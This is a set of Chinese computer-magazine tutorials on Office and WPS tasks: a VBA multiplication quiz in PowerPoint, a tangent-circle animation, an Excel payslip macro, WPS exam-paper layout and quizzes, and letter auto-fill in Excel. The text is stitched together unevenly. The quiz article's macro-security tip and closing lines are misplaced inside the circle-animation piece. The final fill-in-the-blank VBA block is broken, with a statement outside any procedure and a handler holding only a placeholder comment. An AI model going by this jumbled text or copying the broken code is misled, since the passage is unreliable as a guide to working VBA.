第三步：复制标签控件“第一题”并粘贴三次，然后将其中一个标签控件的Caption属性修改为“第二题”，另外两个标签的Caption属性修改为“=”和“×”，接着复制标签控件“=”和“×”并执行粘贴操作，最后大家根据自己的喜好，通过修改各个标签的“Font”属性和“ForeColor”属性，设置好每个标签内文字的字体、字体大小及字体的颜色等参数。

第四步：右击用户窗体“UserForm1”中的任意空白区域，选择“属性”，打开“UserForm1”的“属性”面板，接着选中“Picture”属性并单击该属性右边的“…”按钮，选择一幅自己比较喜欢的图片作为“UserForm1”的背景；再在“属性”面板中将该用户窗体的“Caption”属性修改为“乘法小测验”；最后将用户窗体“UserForm1”中的六个文字框和六个标签按照图4所示的位置关系进行排列。

第五步：右击图4窗口中的“第一题：”右边的文字框，选择“属性”，打开“属性”面板，将该文字框的“名称”属性修改为“YinShuA1”（该文字框箭头所指处）；然后按照这个方法再将其它五个文字框的“名称”属性分别修改为“YinShuA2”、“Ji1”、“YinShuB1”、“YinShuB2”、“Ji2”；接着选中“工具箱”面板中的“命令按钮”控件，在用户窗体“UserForm1”中两道乘法题目的下边插入两个命令按钮，最后将这两个命令按钮的Caption属性分别修改为“出题”和“判断对错”。

经过以上步骤的操作，我们就完成了这个PPT版的乘法小测验的界面设计工作。



### 二、相关代码的添加

完成了PPT版的乘法小测验的界面设计工作，我们的工作可以说已经完成了一半，但想让这个乘法小测验能够正常工作，我们必须给相关命令按钮添加上代码并定义好全局变量才可以。接下来，我们就来了解一下如何添加代码及定义全局变量。

第一步：双击用户窗体“UserForm1”中的“出题”命令按钮，然后在打开的“代码”窗口中光标所处的位置添加以下代码（如图5）：

```
vba
A1 = Rnd * 8 '随机产生一个小于8的小数并赋值给整数型变量A1
A2 = Rnd * 8
YinShuA1.Text = A1 + 1 '将整数型变量A1的值加上1并传递给YinShuA1文本框
YinShuA2.Text = A2 + 1
Ji1.Text = "" '清空Ji1文本框
B1 = Rnd * 8
B2 = Rnd * 8
YinShuB1.Text = B1 + 1
YinShuB2.Text = B2 + 1
Ji2.Text = ""
```

> > **小提示**
> > 在上述代码中，单引号后边的内容是注释，在实际的操作过程中可不输入。



第二步：双击“判断对错”按钮，然后在打开的“代码”窗口中光标所处的位置添加以下代码：

```
vba
D1 = (A1 + 1) * (A2 + 1)
D2 = (B1 + 1) * (B2 + 1)
If Ji1.Text = D1 And Ji2.Text = D2 Then
    MsgBox "恭喜你，题目全做对了！！", 64, "温馨提示"
End If
If Ji1.Text <> D1 And Ji2.Text <> D2 Then
    MsgBox "都错了哟！再想想，相信你一定能够做对！！", 64, "温馨提示"
End If
If Ji1.Text = D1 And Ji2.Text <> D2 Then
    MsgBox "第二道题目做错了，请再想想！", 64, "温馨提示"
End If
If Ji1.Text <> D1 And Ji2.Text = D2 Then
    MsgBox "第一道题目做错了，请再想想！", 64, "温馨提示"
End If
```

> > **小提示**
> > 命令按钮“判断对错”所添加的代码的作用是当用户做完题目后，单击该按钮，程序就会根据用户所做题目的对错情况弹出一个“温馨提示”的对话框，对用户所做题目的对错情况进行判断。

第三步：将鼠标定位到“Private Sub CommandButton1_Click()”的最左边，再添加以下代码：

```
vba
Dim A1 As Integer, B1 As Integer, C1 As Integer, D1 As Integer
Dim A2 As Integer, B2 As Integer, C2 As Integer, D2 As Integer
```

代码添加完毕后，按下回车键并关闭“Visual Basic编辑器”窗口，这时所添加的代码就会自动保存，接着双击图1窗口中的“乘法小测验”命令按钮，在光标所处的位置添加一句代码——“UserForm1.Show”（不包括外侧引号），最后退出PPT2003并保存对PPT文档“乘法小测验”所做的修改即可。

### 三、效果预览

至此，我们就已经完成了制作PPT版乘法小测验的全部工作，重新打开PPT文档“乘法小测验”，然后按下F5快捷键，开始播放幻灯片，再单击幻灯片中的“乘法小测验”命令按钮，并在弹出的“乘法小测验”对话框中单击“出题”命令按钮，做完程序随机出的题目之后（如图6，A处），单击“判断对错”按钮就可以知道所做题目的对错情况了，如图6，B处。

在数学课上，小学生经常会遇到这样的问题——大圆与小圆相切，已知小圆的半径是3厘米、大圆的半径是小圆半径的3倍，小圆围着大圆旋转一周的同时，小圆自身也在旋转，那么小圆它旋转了几圈？类似于这样的问题，怎样才能让小学生迅速地理解题意呢？还是用PPT演示给同学们看效果比较好，下面笔者就给大家介绍一下如何来实现。

◆文/孙学荣

## 圆周运动PPT轻松演示

第一步：启动PowerPoint 2003（其他版本操作类似），新建一个空白演示文稿，然后单击“绘图”工具栏中的“椭圆”图标，再按下Shift快捷键绘制出一个大圆和一个小圆，但是一定让大圆的半径是小圆半径的3倍；接着单击“绘图”工具栏中的“直线”图标，在幻灯片中绘制一条比较短的直线，放在小圆的下面；最后再单击“绘图”工具栏中的“矩形”图标，绘制出一个矩形并添加上文字“演示”。

> **小提示**
> 右击幻灯片中的圆形，选择“设置自选图形格式”，打开“设置自选图形格式”对话框并切换到“尺寸”选项卡，通过修改该选项卡中“宽度”和“高度”后边文本框的数值，可以精确定义圆形的大小，以使得大圆的半径是小圆半径的3倍。

第二步：先选中幻灯片中的小圆，然后单击菜单“幻灯片放映→自定义动画”命令，打开“自定义动画”面板，接着单击“自定义动画”面板中的“添加效果→动作路径→其他动作路径→圆形扩展”命令，这时我们在幻灯片中就会看到这个小圆的运动路径是一个圆，接着选定该圆，对圆的位置和大小进行调整，将它调整到圆心位置跟大圆相同，其半径正好是大圆的半径加上小圆的半径的和就可以了。

第三步：在“自定义面板”中双击上一步新添加的“图形扩展”自定义动画，这时就会弹出“圆形扩展”对话框，在“图形扩展”对话框中单击“效果”标签，取消勾选“平稳开始”和“自动翻转”这两个复选框（如图1）；想增加学生的乐趣的话，可以添加上声音；然后单击“计时”标签，先勾选“单击下列对象时启动效果”单选框，再单击该单选框右边的下拉箭头，选择第一步中绘制的矩形，接着关闭该对话框。



> **小提示**
> 为了获得更好的演示效果，可分别右击幻灯片中的圆形或者矩形，然后选择“设置自选图形格式”，打开“设置自选图形格式”对话框并切换到“颜色和线条”选项卡，为幻灯片中的圆形和矩形添加上自己喜欢的填充色。

第四步：再次选中小圆，单击“自定义动画”面板中的“添加效果”→“强调”→“陀螺旋”命令，为小圆添加一个陀螺旋动画特效；然后双击新添加的陀螺旋效果，弹出“陀螺旋”设置对话框，在这个对话框中进行与“圆形扩展”对话框相同的设置；再单击“计时”标签，将其“开始”后面的内容设为“之前”；同样的，将触发器设置为“矩形”；最后单击“确定”按钮。

通过以上步骤我们就把两个圆相切的圆周运动特效做好了，按下F5快捷键播放动画并单击“演示”命令按钮，就可以预览到最终的动画效果了，如图2。这个动画的效果是不是很不错呢？相信对学生迅速理解题意有着很大的帮助，有此需求的朋友不妨一试。





> **小提示**
> 如果这个乘法小测验无法正常运行，这应该是宏的安全等级设置过高所造成的，可在PPT2003中单击菜单“工具→宏→安全性”命令，打开“安全性”对话框并切换到“安全级”选项卡，将运行宏的安全等级设置为“中。您可以选择是否运行可能不安全的宏”（如图7），单击“确定”按钮之后，再重新打开PPT文档“乘法小测验”，就可以正常使用了。



怎么样，这个PPT版的乘法小测验是不是功能很强大呢？更重要的是，它的交互性比较强，相信小朋友一定会很感兴趣的，经常使用这个乘法小测验，能够提高他们的计算能力，这也就是水到渠成的事情了。有此需求的朋友不妨一试。

## 工资条怎么做

在大型的企事业单位，每个月制作工资条，对于财会人员来说，真是一个枯燥又累人的活。如何让复杂的事情变简单，今天我给大家介绍如何DIY一个工资条制作工具，利用它，只要轻点鼠标，很快就可以生成工资条，最大限度地减轻会计人员的劳动强度。如果你有兴趣，就请往下看——

◆文/华军

### 一、设计工资条主界面

第一步：启动EXCEL2003，新建一个工作簿，名称为工资条，并保存，再重新打开“工资条.XLS”，先用鼠标选中“Sheet1”，将其重命名为“主界面”；再将“Sheet2”重命名为“工资条”；最后将“Sheet3”重命名为“工资表”，如图1。


第二步：切换到“主界面”工作表，单击菜单“工具→选项”命令，打开“选项”窗口，切换到“视图”选项卡，取消勾选“网络线”，最后单击“确定”。

第三步：单击菜单“插入→图片→来自文件”命令，选择你喜欢的图片，单击“插入”按钮，将图片插入到工作表中，并调整好图片的大小和位置，如图2。



第四步：单击菜单“插入→图片→艺术字”命令，打开“艺术字库”窗口，选择你喜欢的艺术字，单击“确定”，打开“编辑‘艺术字’文字”窗口，在文字下面的文本框内输入“工资条制作工具”，再一次单击“确定”，将艺术字插入到工作表中。

第五步：单击菜单“视图→工具栏→窗体”，调出“窗体”工具栏，选中“窗体”工具栏中的“按钮”，然后将鼠标移到工作表的合适位置，单击，这时就会出现一个命令按钮，调整好命令按钮的大小；接着右击之，在出现的右键菜单中单击“编辑文字”命令，将按钮内的文字修改为“查看工资表”，最后单击工作表的任意位置，退出命令按钮的编辑状态。

第六步：复制并粘贴“查看工资表”命令按钮，再将命令按钮的文字修改为“制作并查看工资条”，最后调整好这两个命令按钮的位置，如图3。



至此，我们已经完成了工资条主界面的设计工作。

### 二、设计工资表

在设计工资表之前，我们应该做到心中有数，规划好工资表有几个字段以及各字段之间的位置该怎样排列，由于工资表只是一个“中介”，起到将其中的每一个员工的数据“传递”给“工资条”的作用，因此，对于工资表不需要过多地修饰，只要做好字体格式的调整就可以了。设计工资表的具体步骤如下：

第一步：先切换到“工资表”的工作表，接着单击菜单“文件→页面设置”命令，打开“页面设置”窗口，切换到“页面”选项卡，在方向下面选中“横向”单选按钮，（如图4），最后单击“确定”。



第二步：先选中A1单元格，接着输入“山水集团某分公司十月份员工工资表”，并设置字体为“华文隶书”、字号为“20号”、字形为“加粗”，最后选中A1单元格，设置好你所喜欢的背景色。

第三步：选中A1→I1单元格，右击之，在出现的右键菜单中单击“设置单元格格式”命令，打开“单元格格式”窗口，切换到“对齐”选项卡，选中“文本控制”下面的“合并单元格”复选框，最后单击“确定”，将A1→I1的单元格合并。

第四步：在第二行的单元格中，依次输入“编号”、“姓名”、“职务”、“基本工资”、“奖金”、“事假扣除”、“养老保险”、“应发工资”、“实发工资”，这些字段不一定是必需的，大家可以根据自己单位的实际情况灵活确定“工资表”的工作表应该有哪些字段。

**字段列表：**
- 编号
- 姓名
- 职务
- 基本工资
- 奖金
- 事假扣除
- 养老保险
- 应发工资
- 实发工资

第五步：选中A2→I2单元格，设置字体为“宋体”、字号为“10号”、字形为“加粗”、对齐方式为“居中”、底纹为“梅红”、字体的颜色为“白色”。

第六步：先按照刚才讲的方法在A1单元格添加一个命令按钮，并将其文字更改为“返回主界面”，然后调整好位置（如图5），接着选中A3单元格，再单击菜单“窗口→冻结窗格”命令，这时A3单元格以上的内容就会在滚动工作表中的数据时始终保持标题可见。



至此，我们已经完成了“工资表”工作表的设计工作，下一步就是应该录入相关数据和怎样计算员工个人工资了，相信对于一个会计人员来说，利用EXCEL完成这些事情，是必备的基本功，在此就不多说了，而我们下一步要做的事情就是给主界面中的命令按钮添加相应的代码，从而实现轻点鼠标就可以查看工资表以及制作和查看工资条。

### 三、代码添加

要想主界面中命令按钮能够发挥作用，完成相应的功能，就必须为其添加程序代码，我们可以通过EXCEL里边的Visual Basic编辑器创建自定义模块，然后将它们和命令按钮捆绑在一起，就可以了。

#### 第一步：初始化代码的添加

在创建自定义模块之前，我们要先为“工资条”工作簿编写一些初始化代码，以使当打开该工作簿时，只有“主界面”工作表显示，而其它的工作表处于隐藏状态。初始化代码的添加，操作步骤如下：

1.  单击“工具→宏→Visual Basic编辑器”打开“Visual Basic编辑器”窗口，然后双击“ThisWorkBook”，就会出现一个代码窗口（如图6），里边有一个Workbook_Open()的事件处理程序，它的功能就是定义打开工作簿时先执行哪些动作。

    

    如果代码窗口没有出现Workbook_Open()的事件处理程序，可分别单击代码窗口左边和右边的下拉箭头，选中“Workbook”和“Open”选项。

2.  在代码窗口“Private Sub Workbook_Open()”后边输入以下代码：

    ```
    Worksheets("主界面").Visible = True
    Worksheets("工资条").Visible = False
    Worksheets("工资表").Visible = False
    ```

    这样当你再一次打开“工资条”工作簿时，就会只看到“主界面”一个工作表，其它两个隐藏起来了。

#### 第二步：“制作并查看工资条”宏代码的创建及捆绑

1.  切换到“主界面”工作表，单击“工具→宏→宏”命令，打开宏窗口，在宏名后边的文本框内输入“制作并查看工资条”。
2.  单击“创建”按钮，打开“Visual Basic编辑器”窗口，将代码窗口里边的代码替换为以下内容：

    ```
    Sub 制作并查看工资条()
        '声明变量
        Dim i As Integer
        Dim endrow As Integer
        '计算"工资表"中数据的行数
        endrow = Worksheets("工资表").Range("A65536").End(xlUp).Row
        '如果"工资表"中数据的行数超过2行（开始2行是标题和表头）代表存在有效数据
        If endrow > 2 Then
            Worksheets("工资表").Range("1:1").Copy (Worksheets("工资条").Cells(1, 1))
            For i = 3 To endrow
                Worksheets("工资表").Range("2:2").Copy (Worksheets("工资条").Cells(3 * i - 7, 1))
                Worksheets("工资表").Range(CStr(i) & ":" & CStr(i)).Copy (Worksheets("工资条").Cells(3 * i - 6, 1))
            Next i
            MsgBox "工资条已经制作完成，请查看。"
            Worksheets("工资条").Visible = True
            Worksheets("工资条").Select
            Worksheets("工资表").Visible = False
            Worksheets("主界面").Visible = False
        Else
            MsgBox "请核实工资表中是否存在有效工资数据！"
            Worksheets("工资条").Visible = False
            Worksheets("工资表").Visible = True
            Worksheets("工资表").Select
            Worksheets("主界面").Visible = False
        End If
    End Sub
    ```

3.  右击“制作工资条”按钮，在出现的右键菜单单击“指定宏”命令，打开“指定宏”窗口，从列表框中选择“制作并查看工资条”选项，最后单击“确定”。

#### 第三步：“查看工资表”宏代码的创建及捆绑

仿照第二步的方法，创建一个“查看工资表”宏，并将它和对应的按钮捆绑。“查看工资表”的宏代码如下：

```
Sub 查看工资表()
    '将当前界面切换为"工资表"
    Worksheets("工资表").Visible = True
    Worksheets("工资表").Select
    Worksheets("主界面").Visible = xlVeryHidden
    Worksheets("工资条").Visible = xlVeryHidden
End Sub
```

#### 第四步：“返回主界面”宏代码的创建及捆绑

在主界面中单击“查看工资表”按钮，切换到“工资表”，然后再创建一个“返回主界面”宏，并将它和“工资表”里边对应的按钮捆绑。“返回主界面”的宏代码如下：

```
Sub 返回主界面()
    Worksheets("主界面").Visible = True
    Worksheets("主界面").Select
    Worksheets("工资表").Visible = xlVeryHidden
    Worksheets("工资条").Visible = xlVeryHidden
End Sub
```

至此，我们就完成了“工资条”小工具的制作过程，当你在“工资表”窗口中完成了数据的输入及统计后，在“主界面”窗口中单击“制作并查看工资条”按钮就可以看到制作好的工资条了，怎么样，还不赶快试用一下，相信一定会让你的工作事半功倍。

用WPS制作试卷指南

◆文/侯和林

## 一、页面设置及分栏

这一部分没有什么难点。页面选择8开纸横向，将一个页面分成2栏即可。唯一需要注意一下的是，在进行页面设置时，要注意为密封线留出足够的空间。我们知道，密封线通常在试卷正面的左侧，那么，反过来就是右侧了。遗憾的是，WPS Office 2007在WPS文字中并没有提供“对称页边距”的功能。我们需要另外想办法来实现这一效果了。

进入“页面设置”对话框，在“预览→应用于”下选择“整篇文档”，在“页边距”选项卡中，将“装订线位置”设置为“左”，将“装订线宽”设置为一个适应的数字（比如10毫米），然后切换到“版式”选项，在“页眉和页脚”选项中勾选“奇偶页不同”，并确定。

这时，我们会发现，试卷正面（第一页）左边距较大，而反面（第二页）的右边距较大，刚好让我们来安排试卷头和密封线。

## 二、试卷头和密封线

制作试卷首选要做的是制作密封线。密封线一般在试卷的左侧，在密封线外侧是学校、班级、姓名、考号等信息。而内侧，就是试卷的题目了。

其实，密封线的制作非常简单，只要插入一个文本框，并在其中输入学校、班级、考号、姓名等考生信息，留出足够的空格，并为空格加上下划线，试卷头就算完成了，然后另起一行，输入适量的省略号，并在省略号之间键入“密封线”等字样，最后将文本框的边线设置为“无线条颜色”即可。

在制作过程中，可能会出现考生信息不能居中的问题，即使将其设置为“居中对齐”了，可它却总是有些偏右，这是怎么回事呢？原来，在WPS文字中，是将空格（即使是全角空格）当作西文处理的，并且在排版的时候，连续的空格会自动被忽略掉，因此，极有可能从“学校”到“姓名：”这部分内容居中了，但“姓名：”之后的空格被忽略掉了。解决的办法是，选中考生信息部分，右击鼠标，在右键菜单中选择“段落”，弹出“段落”设置对话框，切换到“换行和分页”选项卡，选中“换行”项目下的“允许西文在单词中间换行”即可。

试卷头做好了，但它是“横”着的，怎样才能把它“竖”起来呢？用鼠标右击该文本框，选择“设置对象格式”在“文本框”选项卡中勾选上“允许文字随对象旋转”，确定退出。

这时，我们再次选中文本框，把光标放到文本框正上方的绿色调整点上，会发现光标变成一个旋转的形状，此时调整好鼠标位置可旋转这个文本框，按下SHIFT键可以较好地定位到左旋90度的位置（也即旋转270度），放开鼠标右键，并用鼠标点一下文本框之外的位置，这个文本框就“竖”起来了。用鼠标把它拖动到页面的左侧，即完成了试卷头的制作。

## 三、页号的处理

试卷头做好了，下面就是试题了。其实试题的排版上并没有什么特别的要求，因此我们就不多讲了。这一小节主要讲一下页码的设置。如前所述，我们要做的试卷是8开4版双面印刷。也就是说，纸的一面有两个版，也就需要两个页号。

而WPS文字并不支持为每栏插入页号，这又该怎么办呢？

由于WPS Office 2007还不支持域计算功能，因此只好采取变通的方法来实现一页双号的效果了。在第一面，直接在页脚中输入“第1页，共4页”和“第2页，共4页”，并把它们调整到适应的位置。等到第一面内容满了，进入反面的时候，其页脚处仍然是“第1页，共4页”和“第2页，共4页”，这可不行，穿帮了！记住，在第一页内容排满后，先插入一个“下一页分节符”，然后在反面进入页脚编辑状态，此时，在出现的“页眉和页脚”工具条上，“同前节”按钮是处于“按下”状态的，用鼠标点击一下，使其呈“弹起”状态，这样，我们就可以设置与前一节不同的页眉和页脚了。

用前面的办法，在第3栏和第4栏下面分别改成“第3页，共4页”和“第4页，共4页”。哈哈，解决了穿帮的问题了！这个办法很笨是吧？这一点我承认，让我们祈祷WPS的域快些支持计算功能吧。不过，因为试卷的页数都不会太多（一般不会超过12页吧），因此，方法虽然笨了一点，但还是比较有效的。

## 四、语文试卷技巧（拼音、稿纸方式）

语文试卷主要以文字为主，这是WPS文字的长项，也没有更多的技巧，因此，这一小节我们主要讲一讲在语文试卷中用到的文字段之外的东西。

新版的WPS Office 2007提供了“拼音指南”功能，可以方便地为汉字添加拼音。但是，该功能实现的效果还比较单一，即只能在汉字“头上”添加拼音，而不能实现诸如在汉字右侧括号中添加拼音，或者只输出拼音而不显示汉字等功能，并且添加的拼音位置、大小都无法调节，在排版语文试卷时，还有许多不便之处。下面我们就采取变通的方法，手把手教大家如何随心所欲地使用拼音。

### 效果一：看拼音写汉字

这是语文试卷中常见的一种题型，即只显示拼音，让学生在拼音下填写汉字。要实现这一效果，首先在文档中输入所有要注音的汉字，比如“月落乌啼霜满天，江枫渔火对愁眠。”这一句经典的诗句，然后选中这些汉字，在格式菜单中选择“中文版式→拼音指南”，调出“拼音指南”设置面板，这时，所有汉字的拼音已经。

### 效果二：修正拼音错误

即在题面中输入错误的拼音，让学生找出并修正。在第一种效果的基础上，把部分正确的拼音改成错误的，只需要调整一下个别拼音即可。如要把刚才拼音中“渔”字的拼音由(yú)改成(yǘ)。

首先，在刚才的拼音下面添加上相应的汉字，这里为了排版方便，我们不用系统自带的“拼音指南”的格式(系统自带格式是用“域”来实现的，不便于排版和调整)，而是直接在拼音的下一行相应位置添上对应的汉字。然后，在文档空白处输入一个“驴”字，选中它，并调出“拼音指南”设置面板，在拼音编辑框中复制“驴”字拼音的韵母部分(即“ǘ”)，按“取消”退出设置面板，删除刚才输入的“驴”字。到题面中，删除“渔”字拼音的韵母部分，替换为刚刚复制来的“ǘ”，错误的拼音输入完成！

除了拼音，在语文试卷中无法避免的部分就是作文。具体到技巧方面，就是稿纸制作。虽然在初级技巧中也谈到了稿纸，但WPS内置的“稿纸方式”是应用于整个文档的，而语文试卷中的稿纸，只占试卷的一部分(如图1)。其实，要实现这一功能，并不需要用到WPS文字2007提供的稿纸方式，只需用表格即可轻松搞定。



第一步：利用常用工具栏上的“插入表格”工具插入一个2行20列的表格，选中第一行，将文字大小设置为5号字，再通过“格式”菜单，将行间距设置为“单倍行距”，并使“如果定义了文档网格，则与网格对齐”处于未选中状态(图2)，确定。



第二步：仔细调整单元格大小，使之看起来比较美观(即使每个单元格都大小一致，并基本呈正方形)。
第三步：将第二行所有单元格合并为一个单元格，把光标置于单元格中，将字号设置为7号或更小，调整单元格的高度，使之为第一行高度的1半左右。
第四步：将表格线的颜色设置为绿色(如果是黑白试卷，则不需此步)。
第五步：全选整个表格，复制，将光标置于表格下面的一行，反复粘贴，即可生成连续的空白稿纸。

## 五、数学试卷技巧（插入公式）

数学试卷主要涉及的问题是各种数学公式的输入问题。在新版本(6.3.0.1606及以上版本)已经支持插入公式功能了。

在“插入”菜单和“常用工具”中都有插入公式的按钮，这两处功能是一样的。点击“插入公式”按钮，会调出公式编辑器(图3)，其中的两个工具条可以实现绝大多数数学公式的插入和编辑，点击其中的任一按钮，发现会细化成更多的形式，再对各个公式加以组合，对中学乃至大学的公式可以做到游刃有余。


在“公式编辑器”中编辑好公式后，关闭公式编辑器，公式就自动插到文档中光标所在位置了。如果需要再次对已有公式进行编辑和修改，只需双击文档中的公式，就可以进入公式编辑器，我们又可以对其“动手动脚”了。

如果要对公式的大小进行调整，只需单击公式，其四周会出现调整点，并出现“图片”工具条，我们就可以像调图片一样对其进行调整。

## 六、试卷答案的隐藏与显示

试卷出好了，作为教师，还需要拟制标准答案。但是，这里又有一个难题：把答案放到另外一个文档中，时间长了可能记不清哪个试卷文档与哪个答案文档相配套，要从成百上千的答案文档中找出所需的绝非易事；而如果把答案与试卷放在同一目录下，设置成相关的文件名，或者干脆把答案做在试卷中的话，则他人也很容易找到答案，这样，答案的保密性就无从保证了。

其实，充分利用WPS文字的功能，巧施“障眼法”，就可以“鱼和熊掌兼得”。既把答案放到了试卷中，别人又不能轻易看到。

第一障眼法：白色文字。即把答案文字的颜色设置为白色，这样，虽然答案明明白白地摆在那里，却很难被发现。

优点：简单易用，特别适合制作选择题、填空题等标准试卷的答案。

缺点：虽然看不到，但答案占位置，如果选中这些文字，则会有黑色文字块出现（图4），虽然不重新设置颜色仍看不到内容，但答案藏身的位置已经暴露，特别是当在“视图”菜单中设置了“背景色”后（如“蓝底白字”），背景不再是白色，白色答案就会“欲盖弥彰”了。


第二障眼法：隐藏文字。先将答案输入到解答的位置，然后选中答案文字，从“格式”菜单中进入“字体”设置面板，在“字体”选项卡中勾选“效果”下的“隐藏文字”。这时，你会发现在“预览”中已经看不到任何文字了，确定后，文档中刚刚选中的部分就“人间蒸发”了，并且，你连它所在的位置都找不到。

如果你勾选“隐藏文字”后，发现无论是预览框还是文档中，被隐藏的部分还是能显示出来，那么请从“工具”菜单进入“选项”设置面板。然后在“视图”选项卡中看是否勾选了“隐藏文字”，如果勾选了，赶紧把它取消，确定后文档中的隐藏文字已经不再显示了。

不过，除此之外，还有一个更方便的办法使隐藏文字“现身”，就是用鼠标左键点击一下“常用工具”条上的【显示/隐藏编辑标记】按钮，当其呈“按下”状态时，所有的编辑标记（包括隐藏属性的文字）都将现身，而当我们再点击一下，使其呈“弹起”状态时，则所有的编辑标记都不留一点痕迹了。

优点：答案不占位，不易被发现。

缺点：按一下“显示和隐藏编辑标记”即现原形，遇到不想看到回车符或其他编辑标记的人随意点一下，就现原形了。

第三障眼法：巧用域功能。隐藏文字，本来不是“域”的功能，却也不妨让它“客串”一下。在需要输入答案的地方，按一下快捷键“Ctrl+F9”则会插入一对大括号“{ }”，在此大括号中输入标准答案，然后再按一下快捷键“Shift+F9”，包括大括号在内的所有域代码都不见了。

优点：不占位置，不易查觉，也不容易因其它操作而现身（必须在域代码的插入点按“Shift+F9”才会现身）。

缺点：如果自己都忘记这里有答案的话，也是很难找到或想起哦。

> 小提示
1.  作为域代码标记的大括号必须是用快捷键“Ctrl+F9”或从菜单“插入→域”的方式来插入的，而不能从键盘上键入，那是完全不一样的。
2.  如果不知道自己插入域的位置了，或想一次性查看所有题目的答案，可以先全选整个文档，再按一下快捷键“Shift+F9”即可。

## 七、电子试卷的制作

前面讲的试卷，都是纸制试卷。在网络时代，它虽然仍是主流，却早已不是前沿了。现在无纸化办公、无纸化考试已经渐成潮流，那么，也让我们来制作一份电子试卷，体验一下无纸化考试吧(见图5)。



### 1.安装VBA环境

如果你的电脑没有安装VBA，则WPS的“控件工具箱”处于不可用状态，要用此功能，必须先安装VBA。但是，可能是由于版权等原因，WPS官方网站并没有提供VBA的安装程序。如果要安装，可以利用AUTOCAD安装盘，在安装时只选择“VBA”即可。另外，也有热心的网友提取出了VBA的独立安装程序，大家可以自己在WPS OFFICE论坛中搜索一下。VBA安装完成后，在WPS文字的工具栏空白区域右击鼠标，即可调出“控件工具箱”。

### 2.选择题的制作

-   第一步：启动WPS文字2007，在新建的空白文档合适的位置输入选择题题干的内容，如“1、WPS Office 2007是哪个公司的产品？”，然后利用“控件工具箱”中的“选项按钮”，在题干的下面插入一个单选按钮。
-   第二步：右击刚刚插入的单选按钮，在右键菜单中选择“属性”，将（名称）后面的字符改为“A1”，将“Caption”项改为第一个备选答案（如“微软公司”），其他项目保持默认不变。退出编辑状态，再次右击此单选按钮，在右键菜单中选择“设置对象格式”，在“版式→环绕方式”中选择“嵌入型”。
-   第三步：复制单选按钮A1，粘贴3次，修改这3个单选按钮界面文字为其他选项，然后将它们的名称属性分别修改为B1、C1、D1。
-   第四步：单击“控件工具箱”中的命令按钮，在合适的位置上插入两个命令按钮，然后将二者的“名称”分别修改为“CMD1”和“CMD2”，将界面文字分别修改为“重做”和“判断”，并将“环绕方式”修改为“嵌入型”。
-   第五步：右击“重做”命令按钮，选择“查看代码”，打开代码编辑窗口，在“Private Sub CMD1_Click()”和“End Sub”之间插入以下代码：

```
A1.Value = False
B1.Value = False
C1.Value = False
D1.Value = False
```

再打开“判断”按钮的代码窗口，在“Private Sub CMD2_Click()”和“End Sub”之间插入以下代码：

```
Private Sub CMD2_Click()
If B1.Value = True Then
MsgBox "恭喜您，答对了！", 64, "温馨提示"
Else
MsgBox "再想想，相信你一定能答对！", 64, "温馨提示"
End If
End Sub
```

其中“if B1.Value=true”表示这道题的正确选项是B(即“金山公司”)，“MsgBox "恭喜您，答对了！", 64, "温馨提示"”表示弹出标题为“温馨提示”、内容为“恭喜你，答对了！”的弹出对话框，而“64”则表示显示信息图标。将这个包含选择题的WPS文档保存为“测试练习.wps”，点击一下“控件工具箱”最左侧的“退出设计模式”按钮，此时，文档中的控件处于应用状态，当选择某个选项后，单击“判断”按钮，系统就会给出相当的提示（如图6）。



### 3.填空题的制作

除了选项题，填空题也是常用的题型之一。用WPS文字制作填空题也非常容易。
第一步：打开前面保存过的“测试练习.wps”，在适当位置输入填空题的题干，如“WPS Office 2007的三个组件是：WPS文字、WPS表格和”，接着选中“控件工具箱”中的文本框，在题干末尾插入一个文本框，根据需要填写内容的多少，调节好文本框的大小，并将其“环绕方式”设置成“嵌入型”。
第二步：右击插入的文本框，选择“属性”，将文本框的名称属性修改为“text1”，然后复制选择题目中的“重做”和“判断”命令按钮到填空题的末尾，将其名称分别修改为“CMD21”和“CMD22”并调整好它们的位置。
第三步：右击填空题后面的“重做”按钮，在右键菜单中选择“查看代码”，在“Private Sub CMD21_Click()”和“End Sub”之间输入下列代码：

```
Text1.Text = ""
Private Sub CMD21_Click()
    ' 代码内容
End Sub
Private Sub CMD22_Click()
    If Text1.Text = "WPS演示" Or Text1.Text = "WPS 演示" Then
        MsgBox "恭喜您，答对了！", 64, "温馨提示"
    Else
        MsgBox "再想想，相信你一定能答对！", 64, "温馨提示"
    End If
End Sub
```

英文字母也玩自动填充

我们知道，在编辑Excel工作表的过程中，可以使用填充手柄自动向表格中输入如序数、日期等不同类型的内置序列；而有时候我们需要在Excel表格中自动按顺序填充26个英文字母，但是Excel却没有提供相关功能。那么，可不可以在Excel表格中实现英文字母的自动快速填充呢？答案当然是肯定的。下边，笔者就给大家介绍一下如何来实现。

◆文/闫华礼

## 方法1：函数法

在图1所示的窗口中，如果从B2单元格开始往下输入“A、B、C……”，可在B2单元格输入函数“=CHAR(65+ROW()-2)”(不包含外侧引号，下同)，接着在B2单元格拖动填充手柄往下填充即可；如果从A3单元格开始往右输入“A、B、C……”，可在A3单元格输入“=CHAR(65+COLUMN()-1)”，最后拖动填充手柄往右填充就可以了。

-   1. 函数CHAR的含义是返回对应数字代码的字符，其语法格式为：CHAR(number)，其中，Number是介于1~255之间的自然数，比如函数“=CHAR(97)”返回小写英文字母a；函数ROW的含义是返回该函数所在单元格的行号（第几行），比如在C5单元格中输入公式“=ROW()”，其计算结果为5；函数COLUMN的含义是返回该函数所在单元格的列号（第几列），例如在B3单元格中输入公式“=COLUMN()”返回2。
-   2. 如果在某个单元格往下填充“A、B、C……”，只需将函数“=CHAR(65+ROW()-2)”中的自然数2替换为该单元格所在的行号就可以了；同样的道理，如果在某个单元格往右填充“A、B、C……”，只要将函数“=CHAR(65+COLUMN()-1)”里边的自然数1替换为该单元格所在的列号即可。
-   3. 在实际的应用过程中，如果需要自动填充小写英文字母序列，只要将上述两个公式中的自然数65替换为97就可以了。



## 方法2：自定义序列法

在实际的工作过程中，如果经常利用函数来实现英文字母的自动填充操作，这无疑是一件很麻烦的事情。其实，除了使用函数，我们还可以通过自定义序列来实现英文字母的自动填充。

在图1所示的窗口中，单击菜单“工具→选项”命令，打开“选项”对话框并切换到“自定义序列”选项卡，先选中“自定义序列”下边列表框中的“新序列”选项，接着在“输入序列”下边的列表框中输入“A”、“B”、“……”、“Z”（如图2），不过需要注意的是每输入一个英文字母必须回车一次，最后分别单击“添加”和“确定”按钮，完成这个自定义序列的添加工作。



完成了这个自定义序列的添加，以后无论是打开任意一个工作表，只需在某个单元格输入大写英文字母A，往下或往右拖动填充手柄，就可以实现大写英文字母的自动填充。

